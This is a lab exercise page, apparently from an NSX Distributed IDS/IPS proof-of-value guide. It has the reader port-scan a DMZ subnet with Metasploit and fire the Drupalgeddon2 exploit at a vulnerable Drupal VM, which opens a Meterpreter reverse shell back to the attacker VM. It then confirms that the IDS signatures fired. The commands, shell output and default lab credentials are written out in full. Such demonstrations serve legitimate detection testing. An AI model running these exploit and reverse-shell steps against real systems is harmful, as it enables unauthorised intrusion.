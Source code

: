 

## 6. Basic Attack Scenario
**Estimated Time to Complete: 30 minutes**

In this exercise, we will use **Metasploit** to launch a simple exploit against the **Drupal** service runnning on the **App1-WEB-TIER VM** and confirm the NSX Distributed IDS/IPS was able to detect this exploit attempt.

![](assets/images/IDPS_POC_28.GIF)

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate port-scan against the DMZ Segment**
1. Type  **sudo msfconsole** to launch **Metasploit**. Follow the below steps to initiate a portscan and discover any running services on the **DMZ** subnet. Hit **enter** between every step. 
    * Type **use auxiliary/scanner/portscan/tcp** to select the portscan module
    * Type **set THREADS 50** 
    * Type **set RHOSTS 192.168.10.0/24** to define the subnets to scan. These should match the **DMZ** Subnet
    * Type **set PORTS 8080,5984** to define the ports to scan (Drupal and CouchDB servers)
    * Type **run**

```console
vmware@ubuntu:~$sudo msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v5.0.95-dev                          ]
+ -- --=[ 2038 exploits - 1103 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.10.0/24
RHOSTS => 192.168.10.0/24, 192.168.20.0/24
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 8080,5984
PORTS => 8080,5984
msf5 auxiliary(scanner/portscan/tcp) > run
```
2.	You should see the below results when the scan completes
```console
[*] 192.168.10.0/24:      - Scanned  28 of 256 hosts (10% complete)
[*] 192.168.10.0/24:      - Scanned  52 of 256 hosts (20% complete)
[+] 192.168.10.100:       - 192.168.10.100:5984 - TCP OPEN
[+] 192.168.10.100:       - 192.168.10.100:8080 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:5984 - TCP OPEN
[+] 192.168.10.101:       - 192.168.10.101:8080 - TCP OPEN
[*] 192.168.10.0/24:      - Scanned  77 of 256 hosts (30% complete)
[*] 192.168.10.0/24:      - Scanned 103 of 256 hosts (40% complete)
[*] 192.168.10.0/24:      - Scanned 129 of 256 hosts (50% complete)
[*] 192.168.10.0/24:      - Scanned 154 of 256 hosts (60% complete)
[*] 192.168.10.0/24:      - Scanned 180 of 256 hosts (70% complete)
[*] 192.168.10.0/24:      - Scanned 205 of 256 hosts (80% complete)
[*] 192.168.10.0/24:      - Scanned 233 of 256 hosts (91% complete)
[*] 192.168.10.0/24:      - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

> **Note**: To reduce the number of OVAs needed for this PoV, each workload VM deployed runs both a vulnerable **Drupal** and a vulnerable **CouchDB** service

**Initiate DrupalGeddon2 attack against App1-WEB-TIER VM**
In order to launch the **Drupalgeddon2** exploit against the **App1-WEB-TIER VM**, you can either manually configure the **Metasploit** module, or edit and run a pre-defined script. If you want to go with the script option, skip to step #3 and continue from there. 

1. To initiate the attack manually, use the Metasploit console you opened earlier. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit attempt
2. Skip step #3 and #4, and continue with step #5

```console

msf5 auxiliary(scanner/portscan/tcp) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```
3. If you want to go with the script option instead, run **sudo nano attack1.rc** and type **VMware1!** when asked for the password. 
    * Confirm that the **RHOST** line IP address matches with the IP address of **App1-WEB-TIER VM** you saw in the NSX VM Inventory. 
    * Change this IP address if needed. 
    * Save your changes and exit **nano**
4. Type **sudo ./attack1.sh** to initiate the Metasploit script and Drupalgeddon exploit. Next, go to step #6
    
5. Confirm the vulnerable server was sucessfully exploited and a **Meterpreter** reverse TCP session was established from **App1-WEB-TIER VM** back to the **Extermal VM**

```console
[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Sending stage (38288 bytes) to 192.168.10.101
[*] Meterpreter session 1 opened (10.114.209.151:4444 -> 192.168.10.101:45032) at 2020-07-20 19:37:29 -0500
```
6. **Optionally**, you can now interact with the Meterpreter session. For instance, you can run the below commands to gain more inforation on the exploited **App1-WEB-TIER VM**
    * Type **sysinfo** to learn more about the running OS

```console
meterpreter > sysinfo
Computer    : 273e1700c5be
OS          : Linux 273e1700c5be 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter > ?
```
7. When you are done, type **exit -z** to shut down the Meterpreter session
8. Type **exit** to exit Metasploit

**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_13.PNG)
3. Click  **APP-1-WEB-TIER** to open a filtered event view for this workload. 
4. Confirm 2 signatures have fired; one exploit-specific signature for **DrupalGeddon2** and one broad signature indicating the use of a **Remote Code execution via a PHP script**
![](assets/images/IDPS_POC_14.PNG)
> **Note**: You can zoom in/out to specific times using the timeline slider, filter the Events view based on Severity by selecting the desired severities or filter based on other criteria such as Attacker Target, Attack Type, CVSS, Product Affected or VM Name by using the **Appl Filter** box.
5. Expand both of the events by clicking the **>** icon on the left side next to severity
6.  For the  **DruppalGeddon2** event:
  *  Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
  *  click **View Intrusion History** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections
  *  this event contains vulnerability details including the **CVSS score** and **CVE ID**. Click the **2018-7600** CVE link to open up the **Mittre** CVE page and learn more about the vulnerability.
7. **Optionally**, you can check the  obove details as well for the secondary event (except for the vulnerability details, which are not applicable to this more general signature)
  
> **Note**: **Product Affected** incicates the service vulnerable to the exploit a signature is detecting. In this case, you should see **Drupal_Server** as being vulnerable to the **DruppalGeddon2** exploit and **Web_server_Applications** being affected by the more generic **Remote Code Execution** attmept. 

> **Note**: **Attack Target** incicates the kind of service being attacked. This could be a client (in case of a client-side exploit), server, etc. In this case, you should see **Web_server** as the attack target for both events. 

8. In the **timeline** above, you can click the dots that represent each event to get summarized information.

You have now successfully completed a simple attack scenario ! 
In the next exercise, we will run through a more advanced scenario, in which will move the attack beyond the initial exploit against the Drupal web-frontend to a database server running on the internal network and then moving laterally once again to another database server beloging to a different application. This is similar to real-world attacks in which bad actors move within the network in order to get to the high value asset/data they are after. The NSX Distributed IDS/IPS and Distributed Firewall are uniquely positioned at te vNIC of every workload to detect and prevent this lateral movement.


Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step: 7. Lateral Movement Scenario***](/docs/7-LateralMovementScenario.md)
